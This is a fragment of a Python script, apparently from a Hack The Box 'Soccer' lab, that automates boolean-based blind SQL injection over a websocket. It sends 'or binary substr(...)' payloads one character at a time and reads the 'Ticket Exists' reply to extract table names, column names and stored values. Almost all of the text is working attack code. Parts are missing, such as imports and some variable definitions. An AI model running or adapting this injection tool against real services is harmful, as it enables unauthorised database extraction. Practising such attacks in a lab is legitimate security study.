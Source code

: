 ```python
values["TablesName"] = []
values["ColumnsName"] = []
values["ValuesTable"] = []
alphabet = ["a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z","A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z","_",",","1","2","3","4","5","6","7","8","9","0","@","."]
valueToFind = ""
ws_server = "ws://soc-player.soccer.htb:9091"
ws = create_connection(ws_server)

def formatOne(s: str, field: str, value: str):
	idx_begin = s.find('{'+field+'}')
	idx_end = idx_begin + len(field) + 2
	return s[:idx_begin] + value + s[idx_end:]

def findCharacter(valueToFind, sqlValueToFind):
	for limitIterator in range(11):
		valueToFind = ""
		actualValue.status(valueToFind)
		flag = False
		sqlValueToFindFormated = sqlValueToFind % limitIterator
		for charIterator in range(1,100):
			for letter in alphabet:
				payload = '''"" or binary substr(%s,%d,1) = '%s' -- -''' %  (sqlValueToFindFormated,charIterator,letter)
				data = {
						"id": payload,
				}

				bar.status(f"Trying {sqlValueToFindFormated} with letter {letter} on position {charIterator}")

				dataJSON = json.dumps(data)
				ws.send(dataJSON)
				resp = ws.recv()
				if resp == "Ticket Exists":
					valueToFind += letter
					actualValue.status(valueToFind)
					break
				elif letter == alphabet[-1]:
					flag = True
					break
			if flag == True:
				break
		if flag == True and valueToFind == "":
			return True
			break
		log.info(f"  •{valueToFind}")
		values[index].append(valueToFind)

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctrl + c
signal.signal(signal.SIGINT, def_handler)

bar = log.progress("SQLI Boolean based")
bar.status("Starting")
actualValue = log.progress("Actual value")

for index in sqlValuesToFind:
	print("-----------------------------------------------------------------------------------")
```
